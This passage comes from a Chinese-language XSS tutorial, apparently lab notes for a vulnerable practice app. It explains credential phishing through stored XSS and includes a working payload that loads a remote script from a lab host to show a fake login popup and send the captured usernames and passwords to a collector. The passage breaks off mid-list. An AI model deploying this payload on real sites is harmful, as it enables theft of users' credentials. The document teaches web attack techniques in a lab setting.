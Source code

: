 如果用户已经在钓鱼弹窗中输入过用户名和密码了，那么脚本就会发起一个Get 请求，将用户输入的内容转发给另一个脚本，存进数据库。

关于 `$_SERVER` ，想了解的可以 google 一下，但是不懂也不影响我们使用，反正他只是一个用来存放用户数据的载体。

钓鱼讲究的是耐心，打好窝然后人往那一坐，等鱼上钩就行了，所以像获取 cookie 那样去生成攻击链接，忽悠用户点击未免不够优雅，容易空军。你想啊，你给人发个链接，人家半信半疑的点开，结果这个页面还谈个窗，要你输入用户名和密码，这未免也太不专业了。所以，钓鱼这种攻击方式，我推荐使用持久型XSS的形式进行部署，只要把 payload 注入到页面中，只要有人点开了这个页面就会中招。一次部署，只要对方不做输出验证就会一直有效。

>利用

将 payload 注入到 存储型xss 模块中，点击提交，浏览器成功生成钓鱼弹窗，输入用户名和密码后，后台的钓鱼记录成功获取到用户输入的用户名和密码。

payload: `<script src="http://192.168.127.200:9000/pkxss/xfish/fish.php"></script>`

![](../../image/Pasted%20image%2020230426143906.png)

## 总结

1. 侦查
	1. 使用插件查看目标网站的安全策略，比如 httpOnly 和 CSP 策略，根据目标使用的安全策略制定 XSS 利用方案
2. 